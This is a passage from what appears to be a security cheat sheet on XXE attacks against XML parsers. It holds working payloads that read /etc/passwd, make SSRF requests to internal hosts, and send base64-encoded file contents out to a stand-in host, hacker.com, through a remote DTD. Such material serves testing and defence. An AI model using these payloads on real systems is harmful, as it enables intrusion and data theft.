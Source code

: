     However, if you request directory - **usually** (everything depends on parser) this will lead to an error, but some XML parsers (e.g. JAVA Xerces) will disclosure directory fine-names

    `<!ENTITY xxe SYSTEM "file:///etc/passwd">`


- **SSRF (Server Side Request Forgery)**
    
    External entities enables to make SSRF attacks, by making request to internal network from web-server parsing XML document (meaning - making requests from internal network, bypassing perimeter protection)

    `<!ENTITY xxe SYSTEM "http://secret.dev.company.com/secret_pass.txt">`

- **Out-Of-Band** - using XML entities, data from server can be grabbed and sent to hacker.com (**NO** server output required)

    Approach 1:

    *   document.xml

        ```
        <!DOCTYPE root [
            <!ENTITY % remote SYSTEM "http://hacker.com/evil.dtd">
            %remote; %intern; %xxe;
        ]>
        ```

        `<root>&xxe;</root>` - you can change `xxe` entity to general entity

    *   http://hacker.com/evil.dtd

        ```
        <!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
        <!ENTITY % intern "<!ENTITY &#37; xxe SYSTEM 'http://hacker.com/result-is?%payl;'>">
        ```

        `<!ENTITY % intern "<!ENTITY &#37; xxe SYSTEM 'file://%payl;'>">` - consider error-based

    Approach 2:

    *   document.xml

        ```
        <!DOCTYPE root [
            <!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
            <!ENTITY % remote SYSTEM "http://hacker.com/evil.dtd">
            %remote; %intern; %xxe;
        ]>
        ```

        `<root>&xxe;</root>` - you can change `xxe` entity to general entity

    *   http://hacker.com/evil.dtd

        ```
        <!ENTITY % intern "<!ENTITY &#37; xxe SYSTEM 'http://hacker.com/result-is?%payl;'>">
        ```

        `<!ENTITY % intern "<!ENTITY &#37; xxe SYSTEM 'file://%payl;'>">` - consider error-based

